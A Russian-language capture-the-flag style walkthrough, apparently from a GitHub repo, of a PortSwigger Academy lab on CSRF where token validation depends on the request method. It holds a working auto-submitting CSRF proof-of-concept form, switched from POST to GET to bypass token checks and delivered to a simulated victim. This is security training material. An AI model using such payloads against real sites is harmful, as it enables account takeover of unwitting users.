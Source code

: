 залонинимся под `wiener:peter`

изменим пароль на `test@test.com`
Перейдем в `Proxy` -> `HTTP history` и найдем запрос, который отправили для изменения почты
```
POST /my-account/change-email HTTP/2
email=test%40test.com&csrf=ajXkAqr60NjlVUnXftMhvmL9UWc7sBT7
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/2.%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/pics%20for%20walkthrough/1.png)
Некоторые приложения правильно проверяют токен, когда запрос использует метод `POST`, но пропускают проверку, когда используется метод `GET`.

В этой ситуации злоумышленник может переключиться на метод `GET`, чтобы обойти проверку и провести CSRF-атаку

в найденном выше запросе на изменение почты нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0add00330399843c8033a32f009000f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="ajXkAqr60NjlVUnXftMhvmL9UWc7sBT7" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
перейдем в `exploit server`
изменим почтовый ящик на `test2@test.com` что в коде будет выглядеть как
`input type="hidden" name="email" value="test2&#64;test&#46;com" `
и изменим метод на `GET`, чтобы обойти валидацию csrf токена на ряде определенных запросов

Тем самым, сгенерированный нами PoC превратится в 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0add00330399843c8033a32f009000f5.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="ajXkAqr60NjlVUnXftMhvmL9UWc7sBT7" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
который мы и отправим жетве
Нажмем `Store` и далее `Deliver to victim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/2.%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/pics%20for%20walkthrough/2.png)
